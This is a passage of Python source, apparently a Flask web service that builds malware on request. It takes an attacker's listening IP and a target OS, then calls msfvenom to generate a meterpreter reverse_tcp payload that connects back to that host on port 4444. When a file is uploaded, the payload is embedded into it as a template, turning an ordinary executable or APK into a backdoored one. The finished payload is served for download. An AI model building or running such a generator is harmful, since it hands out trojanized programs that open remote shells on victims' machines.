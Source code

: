 ```python
        errors.append('lhost missing')
    else:
        lhost = request.form['lhost']
        if not regex_ip.match(lhost):
            errors.append('invalid lhost ip')
    if not 'os' in request.form:
        errors.append('os missing')
    else:
        tar_os = request.form['os']
        if tar_os not in ['windows', 'linux', 'android']:
            errors.append(f'invalid os: {tar_os}')
    if 'template' in request.files and request.files['template'].filename != '':
        file = request.files['template']
        if not ('.' in file.filename and file.filename.split('.')[-1] == OS_2_EXT[tar_os]):
            errors.append(f'{tar_os} requires a {OS_2_EXT[tar_os]} ext template file')
        else:
            template_name = secure_filename(file.filename)
            template_ext = file.filename.split('.')[-1]
            template_file = tempfile.NamedTemporaryFile('wb', suffix='.'+template_ext)
            file.save(template_file.name)
    else:
        template_name = "None"

    if errors:
        return render_template('index.html', payloaderror='<br/>\n'.join(errors))

    payload = f'{tar_os}/meterpreter/reverse_tcp'
    outfilename = md5(request.remote_addr.encode()).hexdigest()[:12] + '.' + OS_2_EXT[tar_os]
    outfilepath = os.path.join(app.root_path, 'static', 'payloads', outfilename)

    try:
        if file:
            print(f'msfvenom -x {template_file.name} -p {payload} LHOST={lhost} LPORT=4444')
            result = subprocess.check_output(['msfvenom', '-x', template_file.name, '-p',
                payload, f'LHOST={lhost}', 'LPORT=4444',
                '-o', outfilepath])
            template_file.close()
        else:
            result = subprocess.check_output(['msfvenom', '-p', payload,
                f'LHOST={lhost}', 'LPORT=4444', '-o', outfilepath])
    except subprocess.CalledProcessError:
        return render_template('index.html', payloaderror="Something went wrong")


    return render_template('index.html', payload=payload, lhost=lhost,
            lport=4444, template=template_name, fn=outfilename)


if __name__ == '__main__':
    app.run(host='0.0.0.0')
```
